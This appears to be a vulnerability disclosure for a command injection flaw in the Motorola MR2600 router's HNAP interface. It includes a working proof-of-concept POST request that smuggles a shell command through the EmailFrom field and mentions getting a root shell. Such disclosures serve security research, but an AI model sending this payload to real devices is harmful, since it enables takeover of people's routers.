


# Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version



Figure 1 shows the latest firmware Ba of the router

## Vulnerability details


The program obtains the content through the savesysemailparams / emailfrom parameter, passes it to V7, and then checks_ command_ inject_ Ch function check command injection


However, the inspection is not rigorous and can be bypassed. Use the '|' symbol to construct the error of the previous command and execute the following command
After that, the program sets the content of V7 to syslogmail_ From content
In the RC file, the corresponding call was found


## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SaveSysEmailParams xmlns="http://purenetworks.com/HNAP1/">
	<EmailFrom> % || ls > /tmp/456 || echo 1</EmailFrom>
</SaveSysEmailParams>
</soap:Body>
</soap:Envelope>
```



Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

